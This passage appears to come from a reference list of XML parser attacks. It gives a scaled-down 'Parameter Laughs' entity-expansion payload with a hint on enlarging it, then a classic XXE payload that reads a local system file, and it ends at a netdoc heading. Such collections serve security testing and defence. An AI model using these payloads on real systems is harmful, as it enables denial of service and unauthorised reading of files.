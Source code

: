 The Parameter Laughs attack is based on the Bllion Laughs attack and it relies on nested entities to allocate gigabytes of content to process caused by a small payload.  
In comparison to previous attack vectors, the attack:

- uses parameter entities (syntax _%entity;_ with _%_) rather than general entities (syntax _&entity;_ with _&_) and
- uses delayed interpretation to effectively sneak use of parameter entities into the so-called "internal subset" of the XML document (the "here" in _<!DOCTYPE r [here]>_) where undisguised parameter entities are not allowed, with regard to the XML specification.  

```xml
<?xml version="1.0"?>  
<!--  
  "Parameter Laughs", i.e. variant of Billion Laughs Attack  
                           using delayed interpretation  
                           of parameter entities  
  Copyright (C) Sebastian Pipping <sebastian@pipping.org>  
-->  
<!DOCTYPE r [  
  <!ENTITY % pe_1 "<!---->">  
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">  
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">  
  %pe_3; <!-- not at full potential, increase towards "%pe40;"  
              carefully -->  
]>  
<r/>  
```

[Source](https://blog.hartwork.org/posts/cve-2021-3541-parameter-laughs-fixed-in-libxml2-2-9-11/)  

# Classic XXE

### Classic XXE Attack (Steuck, 2002)

```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ELEMENT data (#ANY)>  
<!ENTITY file SYSTEM "file:///sys/power/image_size">  
]>  
<data>&file;</data>
```
  
We use the file `/sys/power/image_size` as an example, because it is a very simple file (one line, no special characters).  
  
This attack requires a direct feedback channel and reading out files is limited by "forbidden characters in XML" such as "<" and "&".  
If such characters occur in the accessed file (e.g. `/etc/fstab`) the XML parser raises an exception and stops the parsing of the message.  
  
[Source](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)  

### XXE Attack using netdoc
